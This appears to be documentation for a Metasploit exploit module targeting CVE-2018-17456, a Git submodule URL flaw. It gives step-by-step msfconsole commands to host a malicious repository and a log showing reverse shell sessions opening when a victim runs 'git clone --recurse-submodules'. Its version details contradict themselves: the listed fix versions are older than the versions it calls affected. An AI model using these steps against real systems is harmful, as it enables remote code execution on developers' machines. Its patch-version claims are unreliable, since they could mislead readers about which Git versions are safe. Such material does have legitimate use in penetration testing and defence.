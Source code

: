 ## Description

  This module exploits CVE-2018-17456, which affects Git versions 2.14.5, 2.15.3, 2.16.5, 2.17.2, 2.18.1, and 2.19.1 and lower.  

  When a submodule url which starts with a dash e.g "-u./payload" is passed as an argument to git clone, the file "payload" inside the repository is executed.

  This module creates a fake git repository which contains a submodule containing the vulnerability. The vulnerability is triggered when the submodules are initialised (e.g git clone --recurse-submodules URL)

## Vulnerable Application

  Git can be installed on a variety of operating systems, however
  newer versions will contain the patch for this vulnerability.

  On OSX it can be installed with the XCode command line tools:
  `xcode-select --install`
  
  On Linux it can be installed with apt:
  `sudo apt-get update && sudo apt-get install git`

  You can check the version with `git --version`.
  The fix is included in the following version:
    2.7.6, 2.8.6, 2.9.5, 2.10.4, 2.11.3, 2.12.4, 2.13.5, 2.14.1

## Verification Steps

  Example steps in this format:

  1. Install the application
  1. Start msfconsole
  1. Do: `use exploit/multi/http/git_submodule_url_exec`
  1. Do: `set LHOST [local host]`
  1. Do: `exploit`
  1. Clone the malicious Git URI and its submodules (e.g `git clone --recurse-submodules GIT_URL`)
  1. You should get a shell

## Options

  **GIT_URI**

  This is the URI the git repository will be hosted from (defaults to random).

  **GIT_SUBMODULE**

  This is the URI of the submodule within the git repository (defaults to random).
  The url of this submodule, when cloned, will execute the payload.

## Scenarios


```
msf5 > use exploit/multi/http/git_submodule_url_exec
msf5 exploit(multi/http/git_submodule_url_exec) > set LHOST 192.168.0.1
LHOST => 192.168.0.1
msf5 exploit(multi/http/git_submodule_url_exec) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.0.1:4444
msf5 exploit(multi/http/git_submodule_url_exec) > [*] Using URL: http://0.0.0.0:8080/yaDlXuHVnRMMYGQ
[*] Local IP: http://192.168.0.1:8080/yaDlXuHVnRMMYGQ
[*] Server started.
[*] Malicious Git URI is http://192.168.0.1:8080/ogkvs.git
[*] Command shell session 1 opened (192.168.0.1:4444 -> 192.168.0.1:41034) at 2018-10-18 12:41:40 +0000
[*] Command shell session 2 opened (192.168.0.1:4444 -> 192.168.0.1:41036) at 2018-10-18 12:41:41 +0000
```

On the victim side:

```
git clone --recurse-submodules http://192.168.0.1:8080/ogkvs.git
Cloning into 'ogkvs'...
Submodule 'lfr:lr' (-u./rDwoZ) registered for path 'lfr:lr'
Cloning into 'lr'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
fatal: clone of '-u./rDwoZ' into submodule path 'ogkvs/lfr:lr' failed
Failed to clone 'lfr:lr'. Retry scheduled
Cloning into 'lr'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
fatal: clone of '-u./rDwoZ' into submodule path 'ogkvs/lfr:lr' failed
Failed to clone 'lfr:lr' a second time, aborting
```
